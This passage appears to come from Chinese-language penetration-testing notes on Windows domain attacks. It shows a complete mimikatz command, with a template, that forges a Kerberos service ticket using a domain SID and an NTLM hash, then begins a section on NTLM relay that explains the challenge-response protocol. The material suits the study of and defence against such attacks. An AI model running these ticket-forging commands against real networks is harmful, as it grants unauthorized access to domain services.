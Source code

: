 - 使用 mimikatz 执行如下命令:

```
kerberos::golden /user:test /domain:gong.com /sid:S-1-5-21-3389351060-1252541886-3241281496 /target:WIN-NK5H2367K35.gong.com /service:cifs /rc4:95d8d196e4c54be3360f9f5eefde1c65 /ptt
```

命令格式为:

```
kerberos::golden /user:<任意用户名> /domain:<域名> /sid:<域的sid> /target:<目标机器(也可以理解为对应的服务器)> /service:<服务名称> /rc4:<服务提供者的ntlm hash>
```

常见的服务有:

![](vx_images/4235552148683.png)

# 4. NTLM 中继攻击

## 4.1. NTLM 认证

### 4.1.1 NTLM 概念

NTLM 认证可分为协商, 挑战, 响应三个部分

1. 客户端首先在本地加密当前用户的密码成为密码散列
2. 客户端向服务器发送自己的账号,这个账号是没有经过加密的,明文传输.
3. 服务器端产生一个 16 位的随机数字发送给客户端,作为一个 challenge(挑战)
4. 客户端再用加密后的密码散列来加密这个 challenge,然后把这个返回给服务器,作为 response(响应)
5. 服务器端将用户名,给客户端的 challenge,客户端返回的 response 这三个东西发送给域控制器.
6. 域控制器用这个用户名在 SAM 密码管理库中找到这个用户的密码散列,然后使用这个密码散列来加密 chellenge
7. 域控制器比较两次加密的 challenge,如果一样,那么认证成功,反之,则认证失败.
